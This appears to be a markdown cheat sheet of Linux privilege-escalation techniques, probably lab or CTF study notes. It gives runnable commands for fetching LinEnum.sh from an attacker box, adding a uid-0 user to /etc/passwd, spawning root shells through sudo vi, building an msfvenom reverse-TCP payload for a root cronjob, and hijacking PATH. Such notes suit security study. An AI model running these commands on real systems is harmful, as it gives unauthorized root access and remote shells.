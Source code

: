 # Enumeration

- use the LinEnum.sh script it gives good info.
- start a webserver with python where the file is present, `python -m http.server 80`
- go to the target box and use wget there, `wget <attacker-box>:80/LinEnum.sh`
- `cat /etc/shells` to list the number of available & valid shells on the box

## Write access to /etc/passwd
- before we add our user, first create a compliant password hash. use the command `openssl passwd -1 -salt [salt] [password]`. ex:- `openssl passwd -1 -salt new 123`
- Add a line as the following - `new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash`

## Abusing SUID/SGID files
- try and see if you can execute these files

## Escaping VI Editor
- always use `sudo -l` to know what commands the user can execute as a sudo user.
- therefore you will be able to run as root user without a root password 
- this can help you escalate your own privileges
- running this command as `user8` will show us that this user can run vi as root user.
- Type in `sudo vi` and type `:!sh` or `:!bash` to give you a root shell.


## Misconfigured Binaries or GTFOBins
- GTFOBins are curated list of binaries that can be exploited by an attacker to by pass local security restrictions
- For more info look at [GTFOBins](https://gtfobins.github.io)
- this is how we have managed to get a shell with a VI editor
- this can also help us get a reverse/bind shell as well
- If you are looking for windows binaries [LOLBAS](https://lolbas-project.github.io/)
- LOLBAS - Living of Land binaries and scripts

## Exploit cronjobs
- If you find any cronjob running as root, then you can get a root shell.
- First create the payload
- `msfvenom -p cmd/unix/reverse_tcp LHOST=<attacker-host> LPORT=<attacker-port>`
- copy that payload and edit the script & replace it with payload contents and therefore you become an admin

## Exploit PATH variable
- If you find a SGID file which is running as root and is picking some executables as part of the script, you can create a dummy executable in a specific path and export that path & re-run the executable.
- If we do that we will be getting as shell as the SUID user.
- Example:- `cd /tmp;echo "/bin/bash" > ls;export $PATH=/tmp:$PATH`
- Now, when SGID user executes ls, he will ideally be giving us a SHELL.
